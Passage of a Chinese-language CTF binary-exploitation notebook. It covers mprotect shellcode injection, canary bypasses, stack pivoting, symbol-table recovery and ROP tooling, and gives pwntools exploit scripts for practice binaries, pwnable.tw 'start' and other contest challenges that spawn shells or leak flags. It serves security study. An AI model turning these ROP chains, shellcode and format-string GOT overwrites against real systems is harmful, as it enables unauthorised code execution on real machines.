main = elf.sym['main']
pop_rdi = 0x00000000004006a6
pop_rsi = 0x000000000040ffa3
pop_rdx = 0x0000000000448be5

payload = 'a'*0x18 # 覆盖buf和rbp
payload += p64(pop_rdi) + p64(0x6bc000) # 第一个参数, hea起始地址
payload += p64(pop_rsi) + p64(0x1000)	# 第二个参数, len
payload += p64(pop_rdx) + p64(7)		# 第三个参数, 权限可读可写可执行
payload += p64(mprotect_addr) + p64(main)	# 执行mprotect, 并返回main函数
o.sendline(payload)

o.interactive()
```


可以看到这段的权限已经改过来了, 然后就可以构造read的rop链, 注入shellcode跳转了

#### Exploit

```python
from pwn import*
context(os='linux', arch='amd64')

o = process('./mprotect_shellcode')
elf = ELF('./mprotect_shellcode')

mprotect_addr = elf.sym['mprotect']
read_addr = elf.sym['read']
main = elf.sym['main']
pop_rdi = 0x00000000004006a6
pop_rsi = 0x000000000040ffa3
pop_rdx = 0x0000000000448be5

payload = 'a'*0x18 # 覆盖buf和rbp
payload += p64(pop_rdi) + p64(0x6bc000) # 第一个参数, heap区起始地址
payload += p64(pop_rsi) + p64(0x1000)	# 第二个参数, len
payload += p64(pop_rdx) + p64(7)		# 第三个参数, 权限可读可写可执行
payload += p64(mprotect_addr) + p64(main)	# 执行mprotect, 并返回main函数
o.sendline(payload)


payload = 'a'*0x18	# 覆盖buf和rbp
payload += p64(pop_rdi) + p64(0)		# 第一个参数, 标准输入
payload += p64(pop_rsi) + p64(0x6bc000)	# 第二个参数, 写入地址
payload += p64(pop_rdx) + p64(0x100)	# 第三个参数, 写入的字节数
payload += p64(read_addr) + p64(0x6bc000)	# 执行read写入shellcode后跳转去执行
o.sendline(payload)

shellc = asm(shellcraft.sh())
o.sendline(shellc)	# 写入shellcode

o.interactive()
```



可能主要就是read那个rop链和shellcode注入那边有点问题, 可以调试来看一下

将断点设置在read rop链的返回执行read处


可以看到这时候shellcode注入处还都是空的, 继续执行read函数 


执行到read函数ret指令处可以看到它将返回到shellcode注入处去执行, 这时候shellcode已经通过`o.sendline(shellc)`注入到了这段区域


继续执行即可获取shell


### 实战

### 参考

-   https://xz.aliyun.com/t/7233
-   https://github.com/firmianay/CTF-All-In-One/blob/master/doc/4.11_mprotect.md

## alphanumeric shellcode injection


## bypass canary

### 介绍

canary是为了防止栈溢出而衍生出的一种保护方式, 类似于cookie, 用于检测栈是否被修改, 但是还是有办法来绕过canary保护

### canary保护

gcc中提供了canary相关的参数

```sh
-fstack-protector		启用保护, 但是只会为含有局部变量或者数组的函数插入canary
-fstack-protector-all	为所有函数插入canary
-fstack-protector-strong	对包含有malloc族系或者内部的buffer大于8字节的或者包含局部数组的或者包含对local frame地址引用的函数使能canary
-fstack-protector-explicit	只对明确有stack_protect attribute的函数开启保护
-fno-stack-protector	禁用保护
```

我们可以写一个程序来看一下是如何插入canary和检测canary的

```c
#include<stdio.h>
int main() {
    printf("hello ctf\n");
    return 0;
}
// gcc program.c -o program -fstack-protector-all
```


从fs:28h获取一个随机值到rax, 然后插入到rbp-8的位置(也就是rbp的下一个栈帧), 当程序执行完后会将该值取出来到rdx, 然后用fs:28h和rdx进行异或, 如果相等则跳过执行\_\_stack\_chk\_fail, 该函数会直接退出程序, 如果不相等则会执行该函数


栈布局就如上图所示, 一般x86程序用的是gs寄存器, x64程序用的是fs寄存器, 我们动态调试来看一下canary值的一个特征


可以看到x64的canary刚好满一个栈帧. 最后以'\x00'结尾和其他内容隔断, x86的程序也一样, canary值充满一个栈帧以'\x00'结尾, pwndbg有一个命令可以直接查看canary, 键入`canary`就行


### printf leak canary

我们知道格式化字符串漏洞可以实现任意读栈内的内容, 那么我们已经知道了canary也在栈内, 所以可以通过任意读获取canary的值然后实现绕过canary保护

```c
#include<stdio.h>
#include<stdlib.h>
void fun() {
    system("/bin/sh");
}

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    char buf[0x10];
    gets(buf);
    printf(buf);
    gets(buf);
    return 0;
}
// gcc program.c -o program -no-pie -fstack-protector-all
```

这道题就是简单的ret2text


但是添加了canary, 如果直接覆盖函数返回地址, 则程序会直接调用\_\_stack_chk_fail退出程序


buf偏移量为0x20 + 8


可以看到回显了stack smashing detected, 也就是触发了canary保护机制

程序除了有gets溢出, 还有一个格式化字符串漏洞, 我们就可以利用该漏洞泄露canary值, 但我们要先gdb调试来看一下格式化字符串漏洞中canary的栈帧偏移是多少, 在格式化字符串漏洞printf处设下断点


可以数出来偏移量为9


泄露出来的最后为'\x00', 且整个数字满8个字节, 所以这个就是canary

那么我们在覆盖填充的时候把canary填充到对应的位置, 就不会触发保护机制

```python
from pwn import*
o = process('./canary1')
fun = 0x4006a7
o.sendline("%9$p")
canary = int(o.recv(18), 16)
payload = 'a'*24 + p64(canary) + 'a'*8	# 填充canary
payload += p64(fun)
o.sendline(payload)
o.interactive()
```


gdb查看一下覆盖的结果, 在第二个gets后一条指令设下断点


它的覆盖和预期是一样的

### puts leak canary

我们看过canary的一个特征是有个'\x00'隔断, 而puts函数就是根据'\x00'进行判断字符串的结尾, 如果我们通过溢出把canary的'\x00'覆盖掉, 然后通过puts函数打印buf的时候就会连带着把canary打印出来

printf的%s打印也是同样的道理, printf的%s也是靠'\x00'截断, 修改上面那个例子来看

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void fun() {
    system("/bin/sh");
}

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    char buf[0x10];
    read(0, buf, 0x30);
    puts(buf);
    read(0, buf, 0x30);
    return 0;
}
// gcc program.c -o program -no-pie -fstack-protector-all
```

栈布局和上面那个题一样, buf在0x20, canary在0x8, 那么如果要覆盖canary最后一个字节, 大概需要25个字节, 用gdb来看一下过程, 在第一个read函数处设下断点, 注意read函数会把'\n'也会读入, 也就是'\n'会占有一个字节, 所以只需要手动输入24个字节就行


可以看到canary的'\x00'覆盖成了'\x0a', 也就是'\n', 然后puts打印的时候就打印出乱码, 这个乱码就是canary的前一部分, 所以leak部分的代码可以先写了

```python
from pwn import*
o = process('./canary2')

# leak canary
payload = 'a'*24
o.sendline(payload)	# o.sendline会自动在结尾添加'\n', 所以发24个'a'然后'\n'覆盖canary的'\x00'
o.recvuntil('\n')	# '\n'之后的7个字节就是canary
canary = u64('\x00'+o.recv(7))	# 由于覆盖了最后的那个'\x00', 所以要添加回来
print hex(canary)
o.interactive()
```


接下来就和上面那个一样的操作了

```python
from pwn import*
o = process('./canary2')

fun = 0x4006A7

# leak canary
payload = 'a'*24
o.sendline(payload)	# o.sendline会自动在结尾添加'\n', 所以发24个'a'然后'\n'覆盖canary的'\x00'
o.recvuntil('\n')	# '\n'之后的7个字节就是canary
canary = u64('\x00'+o.recv(7))	# 由于覆盖了最后的那个'\x00', 所以要添加回来
print hex(canary)
payload = 'a'*24 + p64(canary) + 'a'*8 + p64(fun)
o.sendline(payload)
o.interactive()
```


### scanf输入绕过canary

在[scanf特性](#scanf特性)里讲过, 如果%d或者%u输入'+'或者'-'则可以不修改变量的值, 我们可以以此来出一道题

```c
#include<stdio.h>
#include<stdlib.h>

void fun() {
    system("/bin/sh");
}

int main() {
    long long int num[10] = {0};
    long long int *ptr = num;
    for(int i = 0; i <= 13; i++) {
        scanf("%lld", ptr);
        ptr += 1;
    }
    return 0;
}
// gcc program.c -o program -no-pie -fstack-protector-all
```

for循环明显的数组越界, scanf的%lld是读取long long int, 这个数组越界刚好到函数返回地址, 但是就是有canary, 那么就需要想办法去绕过, 我们讲过'+'和'-'对于%d可以跳过输入, 那么这里就可以利用这条原理, 在对canary那条栈帧输入的时候用'+'就可以保持canary的值, 从而绕过canary

fun函数地址为0x4005C7


可以看打我们手动就实现了覆盖函数返回地址为fun函数地址获取到flag了

脚本可以写为

```python
from pwn import*
o = process('./canary3')
fun = 0x4005C7
for i in range(0, 13):
    o.sendline('+')
o.sendline(str(fun))
o.interactive()
```

gdb调试来看一下, 在scanf处设下断点


可以就看到前面所有栈内容都没有被改变, 然后直到输入覆盖函数返回地址处写入fun函数地址, 最后就跳转去system执行"/bin/sh"了

### 爆破canary


### SSP leak


### 劫持\_\_stack\_chk\_fail


### 利用auxv控制

### 实战

-   [dubblesort](#dubblesort)

### 参考

-   https://www.anquanke.com/post/id/177832#h2-3
-   https://www.tuicool.com/articles/MZbe2uq
-   https://www.tuicool.com/articles/ra6RFj6
-   https://www.tuicool.com/articles/BV7Nfaq
-   https://www.tuicool.com/articles/NBZNZzu
-   https://www.tuicool.com/articles/aeM7rmM
-   https://www.tuicool.com/articles/yANjYzb
-   https://www.tuicool.com/articles/qYbYrqe
-   https://www.elttam.com/blog/playing-with-canaries/


## dynelf


## one_gadget use


## stack migrate

### 介绍

在做ret2libc这种需要溢出很多字节的题型的时候, 会遇到一种情况, 就是溢出的字节只够覆盖到函数返回地址, 再多的就填充不了了, 这时候就需要借助stack migrate(栈迁移)技巧

### leave指令

在具体分析栈迁移技巧前, 我们需要来看一下leave指令, 这条指令是该技巧的核心

leave指令主要化分两步操作, 以x86为例

```c
mov esp, ebp
pop ebp
```

看到这条指令会有一种很熟悉的感觉, 编写一个简单的例子

```c
#include<stdio.h>
void fun() {
    printf("hello ctf\n");
}
int main() {
    fun();
    return 0;
}
// gcc program.c -o program -m32
```


最开始那两条指令

```c
push ebp
mov ebp, esp
```

刚好是leave的逆操作, 这一头一尾的操作刚好维持了栈的平衡, 让fun函数的ret指令刚好可以返回call指令压入栈的函数返回地址

### 栈迁移

考虑一种情况, 如果我们覆盖掉ebp, 并且连续执行两次leave指令会发生什么情况

```c
*ebp = 0x61616161	// 覆盖ebp指向地址为0x61616161, 也就是修改push ebp压入栈的那个值
    
leave -> ret -> leave -> ret -> ...
```


第一次执行leave会将0x61616161弹到ebp寄存器中


然后执行第二次leave, 会首先将ebp内容存入esp, 然后弹出栈顶到ebp, 这时候的栈顶变为了0x61616161, 但是这个地址是非法的, 所以报错结束程序

从这里就可以看出如果在执行第一次leave之前覆盖栈*ebp内容, 执行两次leave后就会控制esp指针到该地址+1个栈帧(因为要弹个栈帧到ebp)

假设我们知道输入buf的地址, 然后写入栈*ebp, 两次leave后, 栈就会迁移到buf

```c
#include<stdio.h>
void fun() {
    char buf[0x10];
    for(int i = 0; i < 5*4; i++) {
        buf[i] = 'a';
    }	// 填充buf和其他
    buf[20] = buf & 0xff;
    buf[21] = buf>>8 & 0xff;
    buf[22] = buf>>16 & 0xff;
    buf[23] = buf>>24 & 0xff;
	// 填充*ebp为buf地址
    __asm(
    	"leave\n"	// 额外添加一次leave
    );
}

int main() {
	fun();
    return 0;
}
// gcc test.c -o test -m32 -masm=intel -fno-stack-protector
```

在fun函数执行完buf填充处设下断点


这时候*ebp内容还是原本的


然后接着执行到第一个leave处


这时候*ebp存储的地址为buf的地址, 第一次leave将buf地址存入ebp寄存器


接着下去就会去执行第二个leave, 这时候esp会指向buf+4的位置, ebp会存储buf~buf+3栈帧的内容


接着ret指令就会返回buf+4那个栈帧存储的地方处, 这里地址明显不是正确地址, 所以直接退出

整个的一个流程图为


当程序中溢出不足以完成整个操作, 但是可以覆盖ebp和函数返回地址的时候, 我们可以先将exp写入到buf+1个栈帧的地方, 然后通过该方法, 就会跳转到buf里执行exp, 以一个例子来说明

```c
#include<stdio.h>
void fun() {
    char buf[0x10];
    printf("buf: %p", buf);
    scanf("%32s", buf);
}

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    fun();
    return 0;
}
// gcc migrate.c -o migrate -m32 -no-pie -fno-stack-protector
```

这道题是有溢出的, 但是只能覆盖到函数返回地址


完全不能完成ret2libc的必要操作, 所以可以考虑用栈迁移, 将exp填入buf, 然后将栈迁移到buf里


程序里给定了buf的地址, 可以大概写一部分脚本了

```python
from pwn import*
o = process('./migrate')
elf = ELF('./migrate')

printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
start = 0x080483e0
leave_ret = 0x8048538

o.recvuntil("buf: ")
buf_addr = int(o.recv(10), 16)	# 接收buf地址
print hex(buf_addr)
payload = p32(printf_plt)
payload += p32(start)   # printf返回地址, 刷新栈
payload += p32(printf_got)
payload = payload.ljust(0x18, 'a') #填充到*ebp前的内存
payload += p32(buf-4) # 因为pop ebp会弹一个栈帧, 所以要把这个地址往后一个栈帧
payload += p32(leave_ret)
o.sendline(payload)
o.interactive()
```

可以gdb调试设置断点在fun的leave处来看一下过程


单步执行过两次leave指令


可以看到esp指向了我们的printf_plt地址, 所以ret会去执行printf函数, 然后打印出printf的真实地址


然后程序会返回start重新执行一遍, 这时候可以同样用栈迁移技巧来完成system("/bin/sh")的调用

#### Exploit

```python
from pwn import*
o = process('./migrate')
elf = ELF('./migrate')

printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
start = 0x080483e0
leave_ret = 0x8048538

o.recvuntil("buf: ")
buf_addr = int(o.recv(10), 16)	# 接收buf地址
print hex(buf_addr)
payload = p32(printf_plt)
payload += p32(start)   # printf返回地址, 刷新栈
payload += p32(printf_got)
payload = payload.ljust(0x18, 'a') #填充到*ebp前的内存
payload += p32(buf-4) # 因为pop ebp会弹一个栈帧, 所以要把这个地址往后一个栈帧
payload += p32(leave_ret)
o.sendline(payload)

printf_addr = u32(o.recv(4))
libc_base = printf_addr - libc.sym['printf']
sys_addr = libc_base + libc.sym['system']
bin_sh = libc_base + libc.search("/bin/sh").next()

o.recvuntil("buf: ")
buf_addr = int(o.recv(10), 16)	# 再次获取buf地址
print hex(buf_addr)
payload = p32(sys_addr)	# 再次利用栈迁移来完成system调用
payload += p32(start)
payload += p32(bin_sh)
payload = payload.ljust(0x18, 'a')
payload += p32(buf_addr-4)
payload += p32(leave_ret)
o.sendline(payload)

o.interactive()
```


过程还是挺简单的

### 栈劫持

### 实战

### 参考

-   https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/fancy-rop/#stack-pivoting
-   https://blog.csdn.net/qq_40410406/article/details/109616205#:~:text=%E6%A0%88%20%E5%8A%AB%E6%8C%81%20%E6%A0%88%20%E5%8A%AB%E6%8C%81%E4%B9%9F%E5%8F%AF%E4%BB%A5%E7%A7%B0%E4%B8%BA%20%E6%A0%88%E8%BF%81%E7%A7%BB%20%EF%BC%8C%E7%94%A8%E6%9D%A5%E8%A7%A3%E5%86%B3%20%E6%A0%88%20%E6%9C%AC%E8%BA%AB%E5%8F%AF%E4%BB%A5%E5%88%A9%E7%94%A8%E7%9A%84%E7%A9%BA%E9%97%B4%E4%B8%8D%E5%A4%9F%E7%94%A8%EF%BC%8C%E4%B8%80%E8%88%AC%E6%98%AF%E6%BA%A2%E5%87%BA%E7%A9%BA%E9%97%B4%E4%B8%8D%E5%A4%9F,%E7%94%A8%2C%E6%B2%A1%E5%8A%9E%E6%B3%95%E6%9C%89%E6%95%88%E6%9E%84%E9%80%A0rop%E9%93%BE%E3%80%82%20%E8%BF%99%E4%B8%AA%E6%97%B6%E5%80%99%E6%88%91%E4%BB%AC%E5%8F%AF%E4%BB%A5%E9%80%9A%E8%BF%87%E5%8A%AB%E6%8C%81ebp%E7%9A%84%E6%96%B9%E5%BC%8F%EF%BC%8C%E5%88%A9%E7%94%A8leave%20%E5%92%8C%20ret%E4%B8%A4%E4%B8%AA%E6%B1%87%E7%BC%96%E6%8C%87%E4%BB%A4%E6%9D%A5%E5%81%9A%20%E5%88%B0%20%E6%A0%88%20%E5%8A%AB%E6%8C%81%20%28%E6%A0%88%E8%BF%81%E7%A7%BB%29%E3%80%82
-   https://www.cnblogs.com/max1z/p/15299000.html
-   https://wiki.mrskye.cn/Pwn/stackoverflow/%E6%A0%88%E8%BF%81%E7%A7%BB/%E6%A0%88%E8%BF%81%E7%A7%BB/
-   https://www.mrskye.cn/archives/f3d2f4dc/

## vsyscall trick


## chunk extend and overlapping


## unlink


## off by one

## use after free

## double free

## fastbin dup


## tcache dup


## house of force


## house of spirit


## io_file attack


## realloc trick


## setcontext trick


## fix the symbol table

### 介绍

有时候为了增加逆向的难度, 做开发一般都会将程序里的符号表给剥离, 这样IDA就基本不能识别函数名称之类的东西

### 符号表

符号是对某些类型的数据或者代码(etc. 全局变量或函数)的符号引用, 主要存储在两个节当中: .dynsym和.symtab, .dynsym是.symtab的一个子集, 保存的是来自外部文件符号的全局符号(导入表), 而.symtab还保存了本地符号, 用read -s可以查看程序的符号表


但是.symtab不是必须的, .dynsym是必须的(因为动态链接器需要通过它来完成操作), 用readelf -S查看程序的所有节信息


可以发现.dynsym被标记了A, 但是.symtab没有, A标志的全称是ALLOC, 表示该节会在运行时分配并载入内存, .symtab根本运行就没有被载入, 它主要就是用来调试和链接的

64位ELF文件符号项的结构为:

```c
typedef struct {
    uint32_t	st_name;
    unsigned char	st_info;
    unsigned char 	st_other;
    uint16_t		st_shndx;
    Elf64_Addr		st_value;
    Uint64_t		st_size;
} Elf64_Sym;
```

-   st_name 保存了指向符号表中字符串表(.dynstr或.strtab)的偏移量, 偏移量存放着符号的名称
-   st_size 保存了一个符号的大小
-   st_value 存放符号的值
-   st_other 定义了符号的可见性, 目前一直为0, 没有用
-   st_shndx 保存了相关节头表的索引(每个符号表条目的定义都与某些节对应)
-   st_info 指定符号类型以及绑定属性(低4位保存的是符号类型, 高28位保存的是绑定属性), 符号类型以STT开头, 符号绑定以STB开头, 常用的有
    1.   符号类型
         -   STT_NOTYPE/0 符号类型未定义
         -   STT_FUNC/2 该符号与函数或者其他可执行代码关联
         -   STT_OBJECT/1 该符号和数据目标关联
    2.   符号绑定
         -   STB_LOCAL/0 本地符号在目标文件以外不可见(比如static申明的函数)
         -   STB_GLOBAL/1 全局符号, 对所有要合并的目标可见
         -   STB_WEAK/2 类似于STB_GLOBAL, 不过优先级比它低


name保存的是0x1BBh对应刚好是字符串的地址


info保存的是STT_FUNC和STB_GLOBAL(从readelf中可以快速看出), 或者0x12的二进制为`0b10010`拆为两部分`0b1`和`0b0010`, 分别是1和2, 代表STB_GLOBAL和STT_FUNC

shndx为0xE也就是14


代表的是text段(main在text段合情合理)

value存储的是main函数的偏移量


size为0x17刚好是main函数代码段的大小(0x63a~0x650)

### 剥离符号表

符号表剥离有几个工具可以实现: strip, objcopy, eu-strip等工具, 主要讲讲strip

strip的命令为

```sh
$ strip elf
```


.symtab整个节都被删掉了


文件大小也明显缩小了


导入表的符号都还在所以IDA可以识别, 但是本地符号删除, 导致很多函数识别不出, 反而用sub_xxx(xxx是函数地址)来识别, main函数能被识别是因为__libc\_start\_main的第三个参数是main函数, 所以IDA可以显示, 但是在写脚本用ELF解析文件的时候, 用不了sym定位main函数, gdb调试也是

还好这个demo本地函数比较少, 但是如果静态编译把库函数全部拖进来, 再去除符号, 那个才是头疼

### 恢复符号表

主要就是通过IDA FLIRT功能, FLIRT对库文件中的函数生成签名文件sig, 然后和程序中的函数进行签名对比找到匹配的函数来还原函数名, 只需要将签名文件sig放入IDA的sig/pc目录下就可以使用, 有个大佬制作了大部分的sig

>   GitHub : https://github.com/push0ebp/sig-database


这是没有恢复的, 按shift+F5右击窗口选择Apply new signature


或者通过File>Load file>FLIRT signature file 打开窗口


选择合适的libc, 越是匹配的libc, 恢复的函数名就越多


匹配了548个函数


有的还没有被识别出来


main函数的puts函数被检测出来了

其实是有自动化比对工具, 但是那个工具有点不太好用, 要想办法写个新的脚本来比对, 可以去参考那个项目

>   GitHub : https://github.com/maroueneboubakri/lscan

### 参考

-   https://blog.csdn.net/u010334666/article/details/103889649
-   https://blog.csdn.net/Breeze_CAT/article/details/103788796
-   《Linux二进制分析》
-   《程序员的自我休养 —— 链接、装载与库》

# 工具篇


## ROPgadget

### 介绍

>   GitHub : https://github.com/JonathanSalwan/ROPgadget

此工具可以在二进制文件中gadget来辅助ROP利用, 支持ELF, PE, Mach-0和Raw

### 安装

```sh
$ pip install capstone ROPgadget
```

### 使用

-   --binary <binary> : 指定二进制文件
-   --string <string> : 搜寻字符串
-   --only <key> : 搜寻特别的指令
-   --memstr <string> : 搜寻每个字节在每个可读节中
-   --opcode <opcodes> : 搜寻机器码在可执行段
-   -h, --help : 查看帮助

比较常用的有三条指令, 第一条指令为搜寻字符串

```sh
$ ROPgadget --binary elf --string "xxx"
```


第二条指令是搜寻一些指令, 如果搜寻多条指令可以用`|`进行分隔, 搜寻出的指令都是一些比较特殊的, 可以用作ROP链的

```sh
$ ROPgadget --binary elf --only "pop|ret"
```


但是如果值搜索pop的话就什么都搜不到, 单纯的pop对于ROP链的帮助不是很大


第三条指令是直接搜索ROP利用链

```sh
$ ROPgadget --binary elf --ropchain
```


(输出太多, 截取一部分图片)

## Ropper

### 介绍

>   GitHub :  https://github.com/sashs/Ropper

Ropper有一些功能和ROPgadget类似, 但是功能却比ROPgadget强大

### 安装

```sh
$ pip3 install capstone keystone-engine filebytes
$ python3 setup.py install
```

### 使用

-   -f, --file <file> : 指定文件
-   --string <string> : 搜寻文件
-   --chain <generator> : 生成一个ropchain, 格式为[函数 参数=值...]
-   -j, --jmp <reg> : 搜寻跳转到reg的jmp指令
-   -p, -ppr : 搜寻"pop reg;pop reg;ret"类型的指令
-   --symbols : 显示程序符号
-   --imports : 显示导入表
-   --asm <asm> [H|S|R] : 汇编给定的字符串, H指定hex输出, S指定字符串输出, R->raw, 默认为H
-   --disasm <opcode> : 反汇编机器码
-   --search <string> : 搜寻gadgets, 支持通配符搜索, `?`为任何字符, `%`为任何字符串
-   -h, --help : 显示帮助

常用的也就和ROPgadget差不多

1.   搜寻字符串

```sh
$ ropper -f elf --string "xxx"
```


2.   搜寻pop|pop|ret指令

```sh
$ ropper -f elf --ppr
```


3.   搜寻jmp reg指令

```sh
$ ropper -f elf --jmp rsp
```


4.   搜寻其他指令

```sh
$ ropper -f elf --search "xxx"
```


5.   搜寻ropchain

```sh
$ ropper -f elf --chain "execve cmd=/bin/sh"
$ ropper -f elf --chain execve
```


并且Ropper可以在python脚本中调用, 具体的可以去看GitHub


## one_gadget

### 介绍

>   GitHub : https://github.com/david942j/one_gadget

one_gadget是一个Ruby编写的工具，在很多输入有限制的情况下并且知道libc的版本，那么这个工具将非常有用

### 安装

首先需要安装ruby环境和ruby开发环境

```sh
$ apt-get install ruby ruby-dev
```

如果ruby版本低于2.4版本一下, 可以尝试安装one_gadget 1.7.3的版本

```sh
$ gem install one_gadget -v 1.7.3
```

高于2.4就直接安装就行了

```sh
$ gem install one_gadget
```

### 使用

最常用的命令为

```sh
$ one_gadget libc
```


1.7.3版本的执行可能要加上`-f`参数

```sh
$ one_gadget -f libc
```

其他的选项用的不多, 可以直接键入`one_gadget`查看帮助自己查询用法

## seccomp-tools

### 介绍

>   GitHub : https://github.com/david942j/seccomp-tools

seccomp-tools主要是用来检测程序开启沙盒的规则, 可以快速判断禁用了哪些系统调用

### 安装

首先需要安装ruby环境和ruby开发环境

```sh
$ apt-get install ruby ruby-dev
```

如果ruby版本低于2.4版本一下, 可以尝试安装seccomp-tools 1.3.0的版本

```sh
$ gem install seccomp-tools -v 1.3.0
```

高于2.4就直接安装就行了

```sh
$ gem install seccomp-tools
```

### 使用

这里以一个加了沙盒规则的程序来说

```c
#include<stdio.h>
#include<stdlib.h>
#include<linux/seccomp.h>
#include<seccomp.h>


int main() {
	char c;
	scmp_filter_ctx ctx;  //过滤器的结构体
	ctx = seccomp_init(SCMP_ACT_ALLOW);  //初始化为黑名单模式，如果为SCMP_ACT_KILL则为白名单，即杀死所有不匹配的调用，默认是全部杀死
	seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);  //添加规则，禁用execve调用
	seccomp_load(ctx);  //加载规则
	printf("test\n");
	scanf("%c", &c); 
	return 0;
}
// gcc seccomp_test.c -o seccomp_test -lseccomp
```

seccomp-tools最常用的功能是dump, 它可以查看哪些系统调用被禁用或者通过

```sh
$ seccomp-tools dump ./elf
```


A获取系统调用号, 如果等于execve的系统调用号的话就跳转到KILL, 直接退出程序, 其他的都跳转到ALLOW

还有一些其他的用法, 可以用`--help`来查看

## LibcSearcher


# 实战篇

## pwnable.tw

### start

>   题目地址: https://pwnable.tw/challenge/#1

#### 分析


程序主要就是一个write和一个read系统调用


程序什么保护都没有加, 大概率是ret2shellcode类型


程序刚开始的时候压入了esp, exit也压入栈, 刚好在start的函数返回地址处, read函数有溢出漏洞, 当程序里没有jmp esp之类的指令, 那么只能想办法去泄露栈地址, 我们可以将函数返回地址填为`0x8048087`, 刚好esp指向的是start第一条指令压入的栈地址, 赋值给了write函数第二个参数, 接着就可以把栈地址给打印出来, 这里偏移量通过调试可以看出来buf距离函数返回地址相差0x14

其实通过汇编一可以看出, buf地址一直是esp, 然后在ret指令的前一条指令是

```c
.text:08048099                 add     esp, 14h
```

将esp+14h后执行ret指令, 也可以看出来偏移量就是0x14


```python
from pwn import*
o = process('./start')

write_addr = 0x8048087
# leak stack address
o.recv()
payload = 'a'*0x14 + p32(write_addr)
o.send(payload)	# 不能用sendline, 会覆盖那个栈地址, 导致泄露出来的地址有偏差
stack = u32(o.recv(4))
print hex(stack)
o.interactive()
```


接下来我们要去计算shellcode注入的地方是哪, 只有知道注入的地方是哪才可以将ret返回地址填入shellcode地址跳转去执行

我们首先要清除, read函数的第二个参数地址是哪, 通过上面的调试可以看出来应该为泄露出来的地址-4处, buf距离ret地址偏移量为0x14, 也就是leak_addr+0x10, 所以shellcode注入的地址应该是leak_addr+0x14


#### Exploit

```python
from pwn import*
o = process('./start')
context(os='linux', arch='i386')

write_addr = 0x8048087
# leak stack address
o.recv()
payload = 'a'*0x14 + p32(write_addr)
o.send(payload)	# 不能用sendline, 会覆盖那个栈地址, 导致泄露出来的地址有偏差
stack = u32(o.recv(4))
print hex(stack)
shellcode_addr = stack + 0x14
payload = 'a'*0x14 + p32(shellcode_addr)
shellc = '''
push 0x68732f
push 0x6e69622f
push esp
pop ebx
xor ecx, ecx
xor edx, edx
mov eax, 11
int 0x80
'''
payload += asm(shellc)
o.sendline(payload)
o.interactive()
```


### orw

>   题目地址: https://pwnable.tw/challenge/#2


### dubblesort

>   题目地址: https://pwnable.tw/challenge/#4

## 2021 蓝帽杯

>   题目地址: https://github.com/ctfwiki/ctf_game_history/blob/master/2021/%E8%93%9D%E5%B8%BD%E6%9D%AF.md

### slient

#### 分析


程序很简单, 就是一个shellcode注入, 先看一下加的沙盒规则


or shellcode, 直接模板一把梭

#### Exploit

```python
from pwn import*
import time
context(os='linux', arch='amd64')

def attack(o, i, ch):
	shellc = shellcraft.open("flag")
	shellc += shellcraft.read("rax", "rsp", 0x50)
	shellc += "loop:\n"
	shellc += "cmp byte ptr[rsi+{0}], {1}\n".format(i, ord(ch))
	shellc += "jz loop"
	o.recv()
	o.sendline(asm(shellc))

if __name__ == "__main__":
	li = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}1234567890_-"
	i = 0
	flag = []
	while(10-i):
		for ch in li:
			o = process('./slient')
			start_time = time.time()
			attack(o, i, ch)
			try:
				o.recv(timeout=2)
			except:
				pass
			end_time = time.time()
			o.close()
			if end_time - start_time > 1:
				flag.append(ch)
				break
		else:
			flag.append("?")
		i += 1
	print flag
```


## 2021 长城杯

### K1ng_in_h3Ap_I

#### 分析


给定libc是2.23的版本


add函数申请chunk的size限制在0~240之间


delete函数有一个UAF漏洞


edit函数没有什么问题


hint函数泄露了printf真实地址的低三个字节


# 研究篇

## format string vuln attack .got

```c
#include<regex.h>
#include<sys/types.h>
#include<stdio.h>
#include<stdlib.h>

int regex(char *string) {
    regex_t compile;
    const char *buf = "^[0-9]+";
    char errbuf[1024] = {0};
    int regcode = 0;
    if((regcode = regcomp(&compile, buf, REG_EXTENDED|REG_NOSUB)) == 0) {
        if((regcode = regexec(&compile, string, 0, 0, 0)) == 0) {
            return 1;
        }
    }
    regerror(regcode, &compile, errbuf, sizeof(errbuf));
    puts(errbuf);
    exit(1);

}

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    char string[0x30] = {0};
    scanf("%48s", string);
    if(regex(string)) {
        printf(string);
    }
    scanf("%48s", string);
    if(regex(string)) {
        printf(string);
    }
    return 0;
}
// gcc program.c -o program -no-pie
```

```python
from pwn import*
o = process('./format_string_vuln_attack_got')
elf = ELF('./format_string_vuln_attack_got')
libc = elf.libc
one_gadget = 0x10a2fc
regcomp_got = elf.got['regcomp']
payload = '12345678'+'%15$p'
o.sendline(payload)
o.recvuntil('0x')
libc_start_main = int(o.recv(12), 16) - 231

libc_base = libc_start_main - libc.sym['__libc_start_main']
print hex(libc_base)
one_gadget = one_gadget + libc_base
print hex(one_gadget)
payload = '12345678'
payload += "%{0}p%{1}$hn".format(int(hex(one_gadget)[-4:], 16)-8, 9)
payload = payload.ljust(24, 'a')
payload += p64(regcomp_got)
o.sendline(payload)
o.sendline('1234')
o.interactive()
```


